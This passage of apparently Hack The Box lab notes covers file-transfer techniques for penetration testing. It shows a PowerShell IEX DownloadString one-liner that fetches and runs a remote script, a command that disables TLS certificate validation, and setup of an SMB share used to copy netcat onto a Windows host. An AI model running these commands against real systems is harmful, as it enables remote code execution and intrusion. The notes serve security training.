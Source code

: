 {% hint style="danger" %}
Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')

Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust
relationship for the SSL/TLS secure channel."
At line:1 char:1
+ IEX(New-Object Net.WebClient).DownloadString('https://raw.githubuserc ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : WebException
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
{% endcode %}

***

## <mark style="color:red;">SMB Downloads</mark>

<mark style="color:orange;">**Create the SMB Server**</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
{% endcode %}

To download a file from the SMB server to the current working directory, we can use the following command:

<mark style="color:orange;">**Copy a File from the SMB Server**</mark>

{% code fullWidth="true" %}
```powershell
C:\htb> copy \\192.168.220.133\share\nc.exe

        1 file(s) copied.
```
{% endcode %}
